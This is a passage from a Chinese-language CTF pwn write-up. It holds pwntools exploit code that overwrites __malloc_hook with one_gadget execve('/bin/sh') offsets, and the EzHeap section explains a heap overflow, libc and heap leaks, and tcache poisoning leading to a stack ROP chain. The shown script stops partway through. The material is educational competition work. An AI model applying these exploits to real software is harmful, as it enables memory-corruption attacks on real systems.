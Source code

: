 ```python
edit(0x70,p64(malloc_hook-0x23))
add(0x68,"B")
lg("os",libc+og[0])
add(0x68,b'a'*0x13+p64(libc+og[2]))
sla("choice","1")
sla("length of the diary content:",str(0x20))
# add(0x68,"B"*0x68)
# dele()
# edit(0x70,b"B"*0x68+p64(0xFFFF))
# add(0x1000,"B"*0x1000)
# add(0xf60,"B"*0xf60)

# dele()

ia()


"""
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
"""
```

![image-20240519180913537](https://raw.githubusercontent.com/lmarch2/images/main/typora/202405191851322.png)

### EzHeap

经典的堆模板题，审计发现edit存在任意长度堆溢出

可以利用unsorted bin泄露libc，利用tcache泄露堆上基地址，而且可以利用tcache poisoning实现任意地址读写。

大体思路是泄露libcbase、heapbase，通过environ泄露stack上的地址，然后构造rop写到栈上返回地址。

exp如下：

```python
#!/bin/python3

from pwn import *

libc = ELF("./libc.so")
elf = ELF("./pwn")
c = remote("8.147.133.9", 18394)
context.arch = 'amd64'

def cmd(cmdid):
    c.sendlineafter(b'>> ', str(cmdid).encode())
def add(size, data):
    cmd(1)
    c.sendlineafter(b'size:', str(size).encode())
    if type(data) == str: data = data.encode()
    c.sendlineafter(b'content:', data)
```